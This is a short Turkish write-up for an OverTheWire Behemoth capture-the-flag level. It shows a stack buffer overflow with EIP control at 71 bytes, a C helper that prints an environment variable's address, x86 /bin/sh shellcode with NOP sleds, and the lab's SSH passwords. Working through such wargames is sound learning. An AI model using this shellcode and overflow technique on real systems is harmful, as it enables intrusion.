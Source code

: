 # Behemoth: Level 1 Writeup

    ssh behemoth1@behemoth.labs.overthewire.org -p 2221
    password: aesebootiv


Programımızda stack tabanlı buffer overflow açığı mevcut. Hızlıca kaç byte'dan sonra `EIP` üzerine yazdığımızı bulalım

![0](img/1/0.png)

Evet 71 karakterden sonra `EIP` registerını kontrol edebiliyoruz. O zaman ortam değişkenlerimize bir adet shellcode ekleyelim ve bunun adresini `EIP`'ye yazdırarak shellimizi alalım.

```C
#include <stdio.h>
#include <stdlib.h>

int main(int argc, char* argv[]) {
  printf("%s is at %p\n", argv[1], getenv(argv[1]));
}
```

```bash
export SHELL=$(python -c 'print "\x90"*32 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80" + "\x90"*32 ')
```

![1](img/1/1.png)

Ve gördüğünüz gibi shellimiz geldi. Artık `behemoth2` kullanıcısının parolasını okuyabiliriz

`behemoth2:eimahquuof`
